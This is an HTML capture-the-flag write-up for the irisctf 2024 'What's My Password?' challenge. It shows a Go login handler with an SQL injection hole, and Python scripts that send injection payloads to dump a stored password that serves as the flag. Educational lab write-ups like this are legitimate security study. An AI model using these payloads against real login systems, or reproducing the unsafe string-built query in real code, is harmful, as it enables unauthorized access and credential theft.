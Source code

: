 
<!DOCTYPE html>
<html>
<head>
    <style>
        body {
            font-family: Arial, sans-serif;
        }
        h1 {
            color: #333;
        }
        h2 {
            color: #666;
        }
        p {
            color: #999;
        }
        .flag {
            color: red;
            font-weight: bold;
        }
    </style>
</head>
<body>
    <h1>What's My Password? irisctf 2024 Challenge Writeup</h1>

    <h2>Challenge Description</h2>
    <p> What's My Password?
50 Points
[baby] Oh no! Skat forgot their password (again)!

 

Can you help them find it?

https://whats-my-password-web.chal.irisc.tf
whats-my-password.tar.gz

By:
User
 
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
 
    Starting off I took a look at the provided files.

CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
Seems like this is the entry-point for the flag in form of a users password. Knowing this I took a look at the service hosting the website and API endpoints.

package main

import (
    "database/sql"
    "encoding/json"
    "fmt"
    "net/http"
    "os"
    "os/signal"
    "regexp"
    "syscall"

    _ "github.com/go-sql-driver/mysql"
)

var DB *sql.DB
var Mux = http.NewServeMux()
var UsernameRegex = `[^a-z0-9]`

type Account struct {
    Username string `json:"username"`
    Password string `json:"password"`
}

func startWeb() {
    fmt.Println("Starting very secure login panel (promise)")

    fs := http.FileServer(http.Dir("/home/user/web"))
    Mux.Handle("/", fs)

    Mux.HandleFunc("/api/login", func(w http.ResponseWriter, r *http.Request) {
        if r.Method != http.MethodPost {
            w.WriteHeader(http.StatusMethodNotAllowed)
            return
        }

        var input Account

        decoder := json.NewDecoder(r.Body)
        decoder.Decode(&input)

        if input.Username == "" {
            w.WriteHeader(http.StatusBadRequest)
            w.Write([]byte("Missing Username"))
            return
        }
        if input.Password == "" {
            w.WriteHeader(http.StatusBadRequest)
            w.Write([]byte("Missing Password"))
            return
        }

        matched, err := regexp.MatchString(UsernameRegex, input.Username)
        if err != nil {
            w.WriteHeader(http.StatusInternalServerError)
            return
        }

        if matched {
            w.WriteHeader(http.StatusBadRequest)
            w.Write([]byte("Username can only contain lowercase letters and numbers."))
            return
        }

        qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

        query, err := DB.Query(qstring)
        if err != nil {
            w.WriteHeader(http.StatusInternalServerError)
            fmt.Println(err)
            return
        }
        defer query.Close()

        if !query.Next() {
            w.WriteHeader(http.StatusUnauthorized)
            w.Write([]byte("Invalid username / password combination!"))
            return
        }

        var result Account
        err = query.Scan(&result.Username, &result.Password)
        if err != nil {
            w.WriteHeader(http.StatusInternalServerError)
            fmt.Println(err)
            return
        }
        encoded, err := json.Marshal(result)
        if err != nil {
            w.WriteHeader(http.StatusInternalServerError)
            fmt.Println(err)
            return
        }

        w.Write(encoded)
    })

    http.ListenAndServe(":1337", Mux)
}

func main() {
    fmt.Println("Establishing connection to MySql")
    db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
    if err != nil {
        fmt.Println(err)
        return
    }
    DB = db

    defer DB.Close()

    startWeb()

    sigChan := make(chan os.Signal, 1)
    signal.Notify(sigChan, syscall.SIGINT, syscall.SIGTERM)
    <-sigChan
}
The important thing to notice here is the SQL-injection vulnerability.

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
Knowing this I took a look at the behavior of the endpoint, for this purpose I coded this small python script.

import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "root",
    "password": 'IamAvEryC0olRootUsr'
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
I used the credentials I found in the sql init file.

kali@kali python3 req.py
{"username":"root","password":"IamAvEryC0olRootUsr"}
Seems like we got our credentials back. With this information I concluded that we need to use an SQL-injection to login as the user which has the flag as password.

import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "skat",
    "password": '" or 1=1; -- '
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
It seems that this worked but didn't get us the flag.

kali@kali python3 req.py
{"username":"root","password":"IamAvEryC0olRootUsr"}
Getting the credentials from user root back I concluded that if we use " or 1=1; -- we retrieve all credentials stored and it only returns either the first or last of those credentials which in our case is user root. Knowing this I changed the SQL-injection a bit.

import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "coded",
    "password": '" or username = "skat"; -- '
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
Using this I returned only user skat which obtains the flag and concludes this writeup.

kali@kali python3 req.py
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">irisctf{my_p422W0RD_1S_SQl1}
</p>

    <h2>Conclusion</h2>
    <p>this is a     easy chanllenge for web exploitation  and sql injection vulnerability </p>
</body>
</html>
